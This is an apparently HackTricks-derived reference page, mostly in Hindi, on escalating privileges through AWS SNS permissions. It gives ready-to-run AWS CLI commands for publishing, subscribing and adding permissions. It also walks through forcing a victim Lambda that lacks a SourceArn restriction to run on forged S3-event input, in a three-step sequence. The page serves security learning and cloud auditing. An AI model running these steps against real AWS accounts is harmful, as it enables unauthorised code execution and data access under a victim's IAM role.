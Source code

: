# AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

एक हमलावर SNS topic पर हानिकारक या अवांछित संदेश भेज सकता है, जो संभावित रूप से डेटा करप्शन, अनपेक्षित कार्रवाइयों को ट्रिगर करने, या संसाधनों को समाप्त करने का कारण बन सकता है।
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Potential Impact**: कमजोरियों का शोषण, डेटा भ्रष्ट होना, अनचाही क्रियाएँ, या संसाधनों का अत्यधिक उपभोग।

### `sns:Subscribe`

एक हमलावर SNS टॉपिक पर सदस्यता ले सकता है, जिससे वह संदेशों तक अनधिकृत पहुँच प्राप्त कर सकता है या उन अनुप्रयोगों के सामान्य कार्य में बाधा डाल सकता है जो उस टॉपिक पर निर्भर करते हैं।
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**संभावित प्रभाव**: संदेशों (संवेदनशील जानकारी) तक अनधिकृत पहुँच; प्रभावित टॉपिक पर निर्भर अनुप्रयोगों के लिए सेवा में व्यवधान।

### `sns:AddPermission`

एक हमलावर अनधिकृत उपयोगकर्ताओं या सेवाओं को किसी SNS टॉपिक की पहुँच दे सकता है, और इस तरह संभवतः और अधिक अनुमतियाँ हासिल कर सकता है।
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Potential Impact**: टॉपिक तक अनधिकृत पहुंच, संदेशों का खुलासा, या अनधिकृत उपयोगकर्ताओं या सेवाओं द्वारा टॉपिक में हेरफेर, उन एप्लिकेशन्स के सामान्य कार्य में विघ्न जो उस टॉपिक पर निर्भर हैं।

### Invoke a Lambda by abusing wildcard SNS permission (no `SourceArn`)

यदि किसी Lambda function की resource-based policy `sns.amazonaws.com` को इसे invoke करने की अनुमति देती है बिना स्रोत टॉपिक (`SourceArn`) को सीमित किए, तो कोई भी SNS topic (यहाँ तक कि किसी अन्य account का भी) subscribe करके उस function को trigger कर सकता है। एक attacker जिसके पास बुनियादी SNS permissions हों, Lambda को उसके IAM role के अंतर्गत attacker-controlled input के साथ execute करवाने के लिए मजबूर कर सकता है।

> [!TIP]
> TODO: क्या यह वाकई cross-account किया जा सकता है?

Preconditions
- Victim Lambda policy contains a statement like below, with NO `SourceArn` condition:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
दुरुपयोग चरण (एक ही या क्रॉस-खाता)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**संभावित प्रभाव**: पीड़ित Lambda अपने IAM role के साथ चलता है और attacker-controlled input को प्रोसेस करता है। इसके permissions के आधार पर, इसे दुरुपयोग करके फ़ंक्शन को संवेदनशील कार्य करने के लिए मजबूर किया जा सकता है (उदा., S3 पर लिखना, secrets तक पहुँच, resources को संशोधित करना)।

{{#include ../../../../banners/hacktricks-training.md}}
